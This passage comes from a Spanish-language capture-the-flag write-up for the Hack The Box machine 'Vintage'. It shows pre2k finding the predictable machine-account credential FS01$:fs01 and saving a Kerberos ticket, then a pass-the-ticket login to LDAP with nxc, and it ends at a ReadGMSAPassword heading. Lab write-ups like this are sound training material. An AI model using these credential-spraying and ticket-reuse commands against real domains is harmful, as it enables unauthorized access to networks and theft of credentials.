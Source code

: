 ~~~ bash
pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -save -inputfile users.txt

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[13:55:57] INFO     Testing started at 2025-03-21 13:55:57
[13:55:57] INFO     Using 10 threads                 
[13:55:58] INFO     VALID CREDENTIALS: vintage.htb\FS01$:fs01
[13:55:58] INFO     Saving ticket in FS01$.ccache
~~~

En este caso encontramos una cuenta `FS01$` con una contraseña predecible, entonces obtuvimos el TGT correspondiente
<br>


# Intrusión / Explotación
---
## PassTheTicket

Como tenemos un ticket `kerberos` almacenado en caché (`.ccache`). Lo usaremos para autenticarnos en `ldap`, ya que es un protocolo que podremos utilizar

~~~ bash
export KRB5CCNAME=FS01\$.ccache

nxc smb 10.10.11.45 -k --use-kcache 
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\ from ccache KDC_ERR_WRONG_REALM 

nxc ldap 10.10.11.45 -k --use-kcache
LDAP        10.10.11.45     389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.45     389    dc01.vintage.htb [+] vintage.htb\FS01$ from ccache
~~~


## Abusing AD DACL - `ReadGMSAPassword`
